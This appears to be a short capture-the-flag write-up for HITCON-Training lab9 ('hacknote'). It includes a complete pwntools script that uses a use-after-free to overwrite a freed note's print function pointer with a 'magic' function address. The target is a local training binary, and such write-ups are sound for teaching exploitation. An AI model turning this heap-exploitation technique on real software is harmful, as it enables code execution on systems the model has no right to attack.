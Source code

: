 # HITCON-Training lab9

## binary analysis

> Makefile
```
hacknote:hacknote.c
	gcc -m32 hacknote.c -o hacknote
```

I used this structure to analysis easier.

```c
struct Note {
  int (__cdecl *print)(int);
  char *buf;
};
```

![](main.PNG)

![](menu.PNG)

![](print_note.PNG)

![](del_note.PNG)

![](add_note.PNG)

![](magic.PNG)

## solve

```python
from pwn import *

context.arch = "i386"
# context.log_level = "DEBUG"

p = process("./hacknote")
e = ELF("./hacknote")

libc = ELF("../libc.so.6")

attach(p, "break *0x08048A7C\nc")

raw_input()

def addNote(size, body):
    p.sendlineafter(":", "1")
    p.sendlineafter(":", str(size))
    p.sendlineafter(":", body)

def deleteNote(index):
    p.sendlineafter(":", "2")
    p.sendlineafter(":", str(index))

def printNote(index):
    p.sendlineafter(":", "3")
    p.sendlineafter(":", str(index))

magic = 0x08048986

addNote(24, "aaaaaaaa")
addNote(24, "bbbbbbbb")
addNote(24 ,"cccccccc")

deleteNote(0)
deleteNote(1)

addNote(8, p32(magic))

printNote(0)

p.interactive()
```